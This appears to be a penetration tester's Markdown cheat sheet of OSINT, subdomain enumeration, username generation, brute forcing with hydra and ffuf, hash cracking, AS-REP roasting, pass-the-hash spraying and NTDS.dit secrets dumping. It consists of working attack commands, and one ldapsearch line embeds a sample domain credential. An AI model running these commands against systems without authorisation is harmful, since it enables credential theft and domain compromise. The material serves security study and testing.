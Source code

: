 ### Image OSINT
- `exiftool`
- google image search - reverse-search images

### Website OSINT
  - `whois`
  - [BuiltWith](https://builtwith.com)
  - [crt.sh](https://crt.sh/)
  - [Shodan](https://shodan.io)
  - [Wayback Machine](https://web.archive.org/)
  - [Wappalyzer](https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/)
	    
### Subdomains:
  - `assetfinder url.com`
  - `sublist3r -d url.com`
  - **theHarvester**
    - `theHarvester -d website.com -b all -l 500`
        - limits to 500 searches
  - `dnsrecon`
  - [Subfinder](https://github.com/projectdiscovery/subfinder)
  - [httprobe](https://github.com/tomnomnom/httprobe)
  - `amass enum -d url.com`
  - [crt.sh](https://crt.sh/)

### Email Addresses
- **Username enumeration**
  - Go to the sites, find names
  - **username-anarchy**
  - `./username-anarchy --input-file fullnames.txt --select-format first,flast,first.last,firstl > unames.txt`
  - **theHarvester**
    - `theHarvester -d url.com -b all -l 500`

### Passwords
  - **Dehashed**
  - [HaveIbeenpwnd](https://haveibeenpwned.com/)
  - `cewl` - pulls words from a site that can be used as a password
  - **Burpsuite** to intercept and attempt logins
  - **Brute force** 
    - **hydra**
	    - `hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://IP -t 4 -V
		- 4 is 4 threads`
		  - -V is for verbosity
    - **FUFF**
      - `ffuf -w /usr/share/wordlists/seclists/SecLists-master/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.10.10/loginportallocation/signup -mr "error message such as username already exists"`
      	- -x is the request method
	      - this will normally be a GET request but can be a POST request
      	- -d is the data were sending
	      - ie username, email, password and cpassword
		    - if were only getting the username here we put FUZZ after username and x for the others
        - -H adds headers to the request
	  	- -mr adds the error info
    	- -u is the url location
    	- can add >> validusernames.txt at the end for it to put them in a file for you


### Hash Cracking
- **Hash Identifier**
	- hash-identifier - built in Kali tool to check hashed passwords
- **hashcat** 
	- `hashcat -m 0 {hash file} /usr/share/wordlists/rockyou.txt`
- **Johntheripper**
	- `john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`
	- Can save the hash into a file called hash and use John the Ripper with rockyou
	- `john hash --format=krb5asrep`
	- update above to be whatever hash format, this is for kerberos
	- another john example:
		- `john hash --fork=4 -w=/home/user/rockyou.txt`
		- `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256`
- **Check out account lockout policy:**
	- `ldapsearch -D 'DOMAIN\support' -w '#00^Domain' -p 389 -h IP - b "dc=domain,dc=local" -s sub "*" | grep lockoutThreshold`
	- lockout threshold of 0 means unlimited
- **Get Hash:**
	- Impacket can be used to request a TGT
		- `GetNPUsers.py domain.local/username -dc-ip IP -no-pass`
 		- `impacket-GetNPUsers -no-pass -usersfile usernames.txt -dc-ip IP domainname/`
- **With Hashes:** 
	- Spray with crackmap:
		- `cme smb 10.0.0.12 -u users -H hashes`
		- this will spit out any working username: password
- **Secrets dump:**
	- `secretsdump.py -ntds NTDS.dit -system system.hive LOCAL`
